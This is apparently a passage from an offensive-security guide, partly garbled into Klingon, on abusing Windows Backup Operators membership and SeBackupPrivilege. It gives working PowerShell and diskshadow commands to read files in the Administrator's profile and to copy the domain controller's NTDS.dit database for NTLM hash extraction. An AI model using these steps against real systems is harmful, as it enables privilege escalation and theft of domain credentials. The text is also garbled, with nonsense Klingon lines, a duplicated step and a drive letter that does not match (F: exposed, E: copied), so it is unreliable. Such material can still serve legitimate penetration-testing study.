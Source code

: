 ```powershell
Get-NetGroupMember -Identity "Backup Operators" -Recurse
```
### Local Attack

To leverage these privileges locally, the following steps are employed:

1. Import necessary libraries:

1. **tlhIngan Hol**:
```
1. Import necessary libraries:
```
```bash
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
2. Enable and verify `SeBackupPrivilege`:

2. `SeBackupPrivilege` janglu'chugh vaj jatlh:
```bash
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
3. Access and copy files from restricted directories, for instance:

3. qawHaq je 'ej ngevwI'pu' ghoS, 'ejmey:
```bash
dir C:\Users\Administrator\
Copy-FileSeBackupPrivilege C:\Users\Administrator\report.pdf c:\temp\x.pdf -Overwrite
```
### AD tIq

Domain Controller'e' file system'e' vItlhutlh 'e' vItlhutlh `NTDS.dit` database'e' vItlhutlh, 'ej vItlhutlh domain users 'ej computers 'e' NTLM hashes.

#### diskshadow.exe vIlo'laH

1. `C` drive'e' shadow copy vIlo'laH:
```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```
2. `NTDS.dit`-ni jey yIlo' shadow copy vItlhutlh.
```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
Qapla', `robocopy` vItlhutlh!:
